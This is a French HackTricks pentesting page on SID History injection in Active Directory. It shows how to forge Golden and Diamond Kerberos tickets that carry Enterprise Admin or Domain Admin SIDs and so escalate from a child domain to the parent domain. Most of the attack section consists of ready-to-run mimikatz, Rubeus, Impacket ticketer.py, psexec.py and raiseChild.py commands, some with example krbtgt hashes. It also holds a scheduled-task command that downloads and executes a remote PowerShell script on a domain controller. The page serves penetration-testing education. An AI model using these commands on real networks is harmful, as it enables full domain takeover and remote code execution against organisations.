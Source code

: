 # Injection de l'historique SID

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité**? Vous voulez voir votre **entreprise annoncée dans HackTricks**? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF**? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Attaque par injection de l'historique SID

L'objectif de l'**attaque par injection de l'historique SID** est d'aider à la **migration des utilisateurs entre les domaines** tout en garantissant un accès continu aux ressources de l'ancien domaine. Cela est réalisé en **incorporant l'identifiant de sécurité (SID) précédent de l'utilisateur dans l'historique SID** de son nouveau compte. Notamment, ce processus peut être manipulé pour accorder un accès non autorisé en ajoutant le SID d'un groupe à haut privilège (tel que les administrateurs d'entreprise ou les administrateurs de domaine) du domaine parent à l'historique SID. Cette exploitation confère un accès à toutes les ressources du domaine parent.

Deux méthodes existent pour exécuter cette attaque : en créant un **Golden Ticket** ou un **Diamond Ticket**.

Pour identifier le SID du groupe **"Administrateurs d'entreprise"**, il faut d'abord localiser le SID du domaine racine. Après l'identification, le SID du groupe Administrateurs d'entreprise peut être construit en ajoutant `-519` au SID du domaine racine. Par exemple, si le SID du domaine racine est `S-1-5-21-280534878-1496970234-700767426`, le SID résultant pour le groupe "Administrateurs d'entreprise" serait `S-1-5-21-280534878-1496970234-700767426-519`.

Vous pouvez également utiliser les groupes **Administrateurs de domaine**, qui se terminent en **512**.

Une autre façon de trouver le SID d'un groupe de l'autre domaine (par exemple "Administrateurs de domaine") est avec:
```powershell
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```
### Ticket d'or (Mimikatz) avec KRBTGT-AES256

{% code overflow="wrap" %}
```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```
{% endcode %}

Pour plus d'informations sur les tickets d'or, consultez :

{% content-ref url="golden-ticket.md" %}
[golden-ticket.md](golden-ticket.md)
{% endcontent-ref %}

### Ticket Diamond (Rubeus + KRBTGT-AES256)

{% code overflow="wrap" %}
```powershell
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

# Or a ptt with a golden ticket
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt

# You can use "Administrator" as username or any other string
```
{% endcode %}

Pour plus d'informations sur les tickets diamond, consultez :

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

{% code overflow="wrap" %}
```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```
{% endcode %}

Élevez-vous au niveau de DA ou d'administrateur d'entreprise en utilisant le hachage KRBTGT du domaine compromis :

{% code overflow="wrap" %}
```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```
{% endcode %}

Avec les permissions acquises lors de l'attaque, vous pouvez par exemple exécuter une attaque DCSync dans le nouveau domaine :

{% content-ref url="dcsync.md" %}
[dcsync.md](dcsync.md)
{% endcontent-ref %}

### Depuis Linux

#### Manuel avec [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)

{% code overflow="wrap" %}
```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```
{% endcode %}

#### Automatique en utilisant [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

Il s'agit d'un script Impacket qui **automatise l'escalade du domaine enfant au domaine parent**. Le script nécessite :

* Contrôleur de domaine cible
* Informations d'identification pour un utilisateur administrateur dans le domaine enfant

Le flux est le suivant :

* Obtient l'identifiant de sécurité (SID) du groupe Administrateurs de l'entreprise du domaine parent
* Récupère le hachage du compte KRBTGT dans le domaine enfant
* Crée un Golden Ticket
* Se connecte au domaine parent
* Récupère les informations d'identification pour le compte Administrateur dans le domaine parent
* Si l'option `target-exec` est spécifiée, il s'authentifie sur le contrôleur de domaine du domaine parent via Psexec.
```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```
## Références
* [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
* [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité**? Vous voulez voir votre **entreprise annoncée dans HackTricks**? ou voulez-vous avoir accès à la **dernière version du PEASS ou télécharger HackTricks en PDF**? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
